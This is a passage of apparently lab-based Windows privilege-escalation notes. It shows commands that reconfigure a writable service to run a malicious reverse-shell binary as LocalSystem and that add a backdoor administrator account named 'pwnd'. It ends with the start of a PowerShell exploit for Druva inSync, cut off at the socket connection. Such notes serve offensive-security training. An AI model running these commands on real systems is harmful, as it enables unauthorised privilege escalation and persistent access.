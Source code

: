 # Move the malicious binary to any of the path if the path is writable



6. Insecure Service Permissions

- use access check from sys internals : https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
- 

# Check servicee permissions
 accesschk64.exe -qlc thmservice

# After getting the malicious binary to target machine, update the service config
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

# Restart the service
sc stop THMService
sc start THMService


7. Unpatched software

we can search for existing exploits on the installed software online on sites like exploit-db, packet storm , Google or others.

# List installd softwares
wmic product get name,version,vendor

# Add new user and pass
net user pwnd SimplePass123 /add 
net localgroup administrators pwnd /add

# Check if user is created
net user pwnd

Druva inSync exploit
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

